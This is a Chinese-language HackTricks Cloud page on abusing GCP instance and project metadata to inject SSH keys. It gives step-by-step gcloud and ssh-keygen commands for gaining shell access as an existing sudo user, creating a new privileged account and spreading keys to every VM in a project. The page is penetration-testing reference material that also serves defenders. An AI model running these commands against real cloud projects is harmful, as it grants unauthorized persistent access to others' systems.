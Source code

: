 # GCP - 添加自定义SSH元数据

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果攻击者获得必要的权限，实例上的元数据修改可能会导致**重大安全风险**。

### **将SSH密钥合并到自定义元数据中**

在GCP上，**Linux系统**通常会从[Google Compute Engine的Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)执行脚本。其中一个关键组件是[accounts守护程序](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在**定期检查**实例元数据端点，以获取**授权的SSH公钥的更新**。

因此，如果攻击者可以修改自定义元数据，他可以使守护程序找到一个新的公钥，该公钥将被处理并**集成到本地系统**中。该密钥将被添加到现有用户的`~/.ssh/authorized_keys`文件中，或者根据密钥的格式，可能会创建一个具有`sudo`权限的新用户。攻击者将能够 compromise 主机。

### **将SSH密钥添加到现有特权用户**

1. **检查实例上现有的SSH密钥：**
- 执行命令描述实例及其元数据，以查找现有的SSH密钥。输出中的相关部分将位于`metadata`下，特别是`ssh-keys`键。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- 注意SSH密钥的格式：用户名在冒号之前，用冒号分隔。

2. **为SSH密钥元数据准备文本文件：**
- 将用户名及其对应的SSH密钥详情保存到名为`meta.txt`的文本文件中。这对于在添加新密钥时保留现有密钥至关重要。

3. **为目标用户（此示例中为`alice`）生成新的SSH密钥：**
- 使用`ssh-keygen`命令生成新的SSH密钥，确保注释字段（`-C`）与目标用户名匹配。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 将新的公钥添加到`meta.txt`，模仿实例元数据中找到的格式。

4. **更新实例的SSH密钥元数据：**
- 使用`gcloud compute instances add-metadata`命令将更新后的SSH密钥元数据应用于实例。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新的SSH密钥访问实例：**
- 使用新密钥连接到实例的SSH，以在目标用户（此示例中为`alice`）的上下文中访问shell。
```bash
ssh -i ./key alice@localhost
sudo id
```

### **创建一个新的特权用户并添加SSH密钥**

如果未找到有趣的用户，可以创建一个新用户，并赋予其`sudo`权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

可以通过在**项目级别应用SSH密钥**来扩大在云环境中对多个虚拟机（VMs）的SSH访问范围。这种方法允许对项目中未明确阻止项目范围SSH密钥的任何实例进行SSH访问。以下是一个简要指南：

1. **在项目级别应用SSH密钥：**
- 使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非某个VM启用了“阻止项目范围SSH密钥”选项。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围密钥SSH进入实例：**
- 有了项目范围的SSH密钥，您可以SSH进入项目中的任何实例。未阻止项目范围密钥的实例将接受SSH密钥，从而授予访问权限。
- 直接SSH进入实例的方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥来尝试访问。


# 参考
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
